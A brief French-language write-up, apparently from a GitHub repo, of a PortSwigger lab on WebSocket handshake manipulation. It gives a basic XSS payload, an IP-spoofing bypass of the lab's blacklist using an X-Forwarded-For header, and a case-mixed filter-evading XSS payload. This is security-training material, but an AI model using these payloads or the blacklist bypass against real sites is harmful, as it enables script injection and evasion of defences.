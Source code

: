 # Lab

https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities

## Payload

Avec un payload normal : `<img src=1 onerror=alert(1)>` notre IP se fait blacklister.

On peut se reconnecter en spoofant l'IP avec Burp Suite via le header `X-Forwarded-For: 1.1.1.1`.

Envoyer le payload : ``<img src=1 oNeRrOr=alert`1`>``